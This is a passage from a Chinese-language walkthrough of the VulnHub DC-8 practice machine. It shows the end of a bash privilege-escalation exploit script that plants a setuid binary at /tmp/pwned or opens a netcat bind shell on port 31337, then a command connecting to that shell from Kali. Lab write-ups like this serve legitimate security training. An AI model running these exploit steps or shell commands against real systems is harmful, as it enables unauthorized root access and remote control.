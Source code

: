 ```bash

	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_SETUID
	exploit
	echo

	echo "Waiting 5 seconds..."
	sleep 5
	ls -l /tmp/pwned
	/tmp/pwned

elif [ $METHOD = "netcat" ]; then
	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_NETCAT
	exploit
	echo
	echo "Waiting 5 seconds..."
	sleep 5
	nc -v 127.0.0.1 31337

else
	usage
fi
EOF

bash pri.sh -m netcat
```

耐心等待

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC8/14.png)

这个时候再用 kali 新建一个 bind shell 连接
```
nc -nv 192.168.141.141 31337
```
